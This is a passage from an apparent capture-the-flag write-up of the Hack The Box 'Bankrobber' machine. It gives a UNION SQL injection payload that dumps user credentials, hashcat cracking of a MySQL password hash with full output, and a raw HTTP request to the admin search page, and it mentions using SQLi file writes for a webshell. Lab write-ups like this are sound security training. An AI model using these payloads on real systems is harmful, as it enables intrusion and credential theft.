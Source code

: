 
    Manual example in Burp:
      term=1' UNION ALL SELECT 1,concat(id,0x3a,username,0x3a,password),3 FROM users;
        <td>1:admin:Hopelessromantic</td>
        <td>2:gio:gio</td>


4. Crack the password hash using hashcat, using rockyou.txt won't give us the password - however using crackstation.net finds
   the password for us. I went ahead and added found password (Welkom1!) to rockyou.txt and ran hashcat again for poc.

   root@p3:/opt/htb/machines/bankrobber# echo Welkom1! >> /usr/share/wordlists/rockyou.txt
   root@p3:/opt/htb/machines/bankrobber# hashcat -a0 -m300 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
     Session..........: hashcat
     Status...........: Cracked
     Hash.Type........: MySQL4.1/MySQL5
     Hash.Target......: f435725a173757e57bd36b09048b8b610ff4d0c4
     Time.Started.....: Mon Feb  3 17:09:03 2020 (1 sec)
     Time.Estimated...: Mon Feb  3 17:09:04 2020 (0 secs)
     Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
     Guess.Queue......: 1/1 (100.00%)
     Speed.#1.........: 15110.2 kH/s (3.15ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
     Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
     Progress.........: 14344387/14344387 (100.00%)
     Rejected.........: 0/14344387 (0.00%)
     Restore.Point....: 14155776/14344387 (98.69%)
     Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
     Candidates.#1....: 0213JR -> Welkom1!
     Hardware.Mon.#1..: Temp: 56c Util: 33% Core:1770MHz Mem:6000MHz Bus:16

     Started: Mon Feb  3 17:08:59 2020
     Stopped: Mon Feb  3 17:09:04 2020

   root@p3:/opt/htb/machines/bankrobber# cat cracked.txt
   f435725a173757e57bd36b09048b8b610ff4d0c4:Welkom1!

   NOTE: root:Welkom1!            (MariaDB - MySQL)
   NOTE: admin:Hopelessromantic   (WebApp)
   NOTE: gio:gio                  (WebApp)


5. We are unable to login anywhere with the found creds, so we continue to enumerate the box using the SQLi vuln.
   File Read and Write is possible, we can use this to get a webshell and/or enumerate interesting files such as backdoorchecker.php.

     POST /admin/search.php HTTP/1.1
     Host: bankrobber.htb
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
     Accept: */*
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Referer: https://bankrobber.htb/admin/
     Content-type: application/x-www-form-urlencoded
     Content-Length: 69
     Connection: close
     Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
